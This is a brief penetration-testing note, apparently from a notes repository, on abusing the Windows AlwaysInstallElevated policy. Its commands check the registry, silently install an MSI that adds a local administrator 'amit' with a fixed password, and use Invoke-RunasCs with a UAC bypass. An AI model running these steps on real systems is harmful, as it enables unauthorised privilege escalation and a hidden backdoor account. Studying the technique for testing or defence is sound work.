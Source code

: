 # Leveraging AlwaysInstallElevated
Check if enabled:
- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` 
- `reg query HKLM\software\policies\microsoft\windows\installer /v alwaysinstallelevated`


Exploit: 
- `msiexec /quiet /qn /i newlocaladmin.msi`

### MSI File Purpose

1. Creating the user `amit` with the password `Password123!` 
2. Adding the user to the local administrators group. 

Then we can use [Invoke-RunasCs.ps1](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1) to get code execution as the newly created administrator user:
- `Invoke-RunasCs amit 'Password123!' 'whoami /priv' -ForceProfile -CreateProcessFunction 2 -BypassUac`
